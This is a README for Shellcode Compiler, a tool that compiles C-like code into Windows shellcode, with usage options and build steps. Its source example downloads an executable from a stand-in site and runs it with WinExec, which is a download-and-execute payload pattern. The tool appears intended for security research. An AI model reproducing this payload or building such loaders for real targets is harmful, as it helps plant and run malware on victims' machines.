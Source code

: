 # Shellcode Compiler

Shellcode Compiler is a program that compiles C/C++ style code into a small, position-independent and NULL-free shellcode for Windows. It is possible to call any Windows API function in a user-friendly way.

Shellcode Compiler takes as input a source file and it uses it's own compiler to interpret the code and generate an assembly file which is assembled with NASM (http://www.nasm.us/). 

Shellcode compiler was released at DefCamp security conference in Romania, November 2016.

# Command line options
        -h (--help)      : Show this help message
        -v (--verbose)   : Print detailed output
        -t (--test)      : Test (execute) generated shellcode
        -r (--read)      : Read source code file
        -o (--output)    : Output file of the generated binary shellcode
        -a (--assembbly) : Output file of the generated assembly code

# Source code example

        function URLDownloadToFileA("urlmon.dll");
        function WinExec("kernel32.dll");
        function ExitProcess("kernel32.dll");

        URLDownloadToFileA(0,"https://site.com/bk.exe","bk.exe",0,0);
        WinExec("bk.exe",0);
        ExitProcess(0);
        
# Invocation example
        ShellcodeCompiler.exe -r Source.txt -o Shellcode.bin -a Assembly.asm
        
# Limitations
1. It is not possible to use the return value of an API call
2. It is not possible to use pointers or buffers
3. It is not possible to declare variables

All these limitations will be fixed as soon as possible. However, many other limitations will exist.
This is an Alpha version. Please report any bugs or suggestions.

# Changelog
1. It uses now Keystone Engine to assemble the shellcode: http://www.keystone-engine.org/

# Keystone compilation
1. Download Keystone Engine source code
2. Download, install and put in PATH cmake and python
3. Open Visual Studio Command Line (32 bits) and go to Keystone source directory
4. Edit nmake-lib.bat file and replace -DLLVM_TARGETS_TO_BUILD="all" with -DLLVM_TARGETS_TO_BUILD="X86"
5. Run mkdir build and cd build commands
6. Run ..\nmake-lib.bat command
7. Copy the resulted lib file from keystone-src\build\llvm\lib\keystone.lib to ShellcodeCompiler\Keystone\keystone.lib

# Author

Ionut Popescu (@NytroRST)
